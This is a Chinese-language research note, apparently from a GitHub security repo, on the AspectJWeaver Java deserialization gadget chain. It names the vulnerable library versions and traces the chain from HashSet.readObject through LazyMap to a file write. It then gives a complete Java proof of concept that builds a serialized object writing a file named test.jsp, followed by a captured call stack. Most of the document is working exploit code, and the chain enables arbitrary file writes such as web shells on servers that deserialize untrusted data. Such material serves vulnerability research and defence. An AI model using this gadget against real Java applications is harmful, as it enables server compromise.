



- [AspectJWeaver Gadget](#aspectjweaver-gadget)
  - [依赖:](#依赖)
  - [aspectjweaver](#aspectjweaver)
    - [Gadget chain](#gadget-chain)
  - [POC](#poc)

# AspectJWeaver Gadget
## 依赖:
```  
org.aspectj:aspectjweaver:1.9.2  
commons-collections:commons-collections:3.2.2
```
## aspectjweaver
这是一条文件写入的Gadget,在aspectjweaver包的`SimpleCache`类中有一个继承于HashMap的内部类`StoreableCachingMap`.

其`put`方法可以在指定的目录写入文件.  
  
  
而要触发其put方法可以利用LazyMap的get()方法,通过指定map为`StoreableCachingMap`即可,而LazyMap的get()的触发则跟之前的CC链一样.
  
### Gadget chain
```
HashSet.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                    LazyMap.get()
                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()
```
## POC
POC如下
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class AspectWeaverGadget {
            public  static HashSet getGadget() throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, NoSuchMethodException {

                Class<?> cl  = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
                Constructor<?> constructor = cl.getDeclaredConstructors()[0];
                constructor.setAccessible(true);
                Object simpleCache = constructor.newInstance(".", 1);
                byte[] content = "gadget test".getBytes();
                Transformer ct = new ConstantTransformer(content);
                Map lazyMap = LazyMap.decorate((Map)simpleCache, ct);
                TiedMapEntry entry = new TiedMapEntry(lazyMap, "test.jsp");
                HashSet map = new HashSet(1);
                map.add("foo");
                Field f =null;
                Field f2 = null;
                try {
                    f = HashSet.class.getDeclaredField("map");
                } catch (NoSuchFieldException e) {
                    f = HashSet.class.getDeclaredField("backingMap");
                }
                f.setAccessible(true);
                HashMap innimpl  =(HashMap) f.get(map);
                try {
                    f2 = HashMap.class.getDeclaredField("table");
                } catch (NoSuchFieldException e) {
                    f2 = HashMap.class.getDeclaredField("elementData");
                }
                f2.setAccessible(true);
                Object[] array = (Object[]) f2.get(innimpl);
                Object node = array[0];
                if(node == null){
                    node = array[1];
                }
                Field keyField = null;
                try{
                    keyField = node.getClass().getDeclaredField("key");
                }catch(Exception e){
                    keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
                }

                keyField.setAccessible(true);
                keyField.set(node, entry);

                return map;
            }
}
```  
调用栈如下:
```
write:313, FileOutputStream (java.io)
writeToPath:255, SimpleCache$StoreableCachingMap (org.aspectj.weaver.tools.cache)
put:193, SimpleCache$StoreableCachingMap (org.aspectj.weaver.tools.cache)
get:158, LazyMap (org.apache.commons.collections.map)
getValue:73, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:120, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
put:612, HashMap (java.util)
readObject:342, HashSet (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1184, ObjectStreamClass (java.io)
readSerialData:2296, ObjectInputStream (java.io)
readOrdinaryObject:2187, ObjectInputStream (java.io)
readObject0:1667, ObjectInputStream (java.io)
readObject:503, ObjectInputStream (java.io)
readObject:461, ObjectInputStream (java.io)
main:12, Gadget
```
